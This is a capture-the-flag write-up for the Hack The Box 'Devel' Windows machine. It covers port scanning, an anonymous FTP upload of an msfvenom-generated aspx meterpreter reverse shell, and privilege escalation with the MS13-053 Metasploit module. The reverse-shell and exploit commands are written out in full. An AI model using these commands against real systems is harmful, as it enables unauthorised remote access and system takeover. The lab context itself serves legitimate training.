

# Hack the box - Devel


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.5</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 15</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.5
```


We can see there is anonymous FTP login on port 21. Let's try to login with anonymous:anonymous:


Successful login with FTP. We can see that there is web server files inside.
___

## Exploitation

Since server uses aspx let's make reverse shell using msfvenom:

```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o shell.aspx LHOST=10.10.x.x LPORT=4444
```




When reverse shell file is uploaded on server, we can open metasploit and use meterpreter:

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.x.x
set lport 4444
run
```


## Privilege escalation

Time to gather information about system so we can potentialy escalate privileges:


Machine uses Microsoft Windows 7 Enterprise operating system, lets try local exploit suggester tool:

```
Ctrl+c -> y
background
set session 1
run
```


We can see that machine is vulnerable for couple of exploits. 3rd one seems to work:

```
use exploit/windows/local/ms13_053_schlamperei
set session 1
run
set lhost 10.10.x.x
run
```


We have system user rights. Time to finish the challenge:

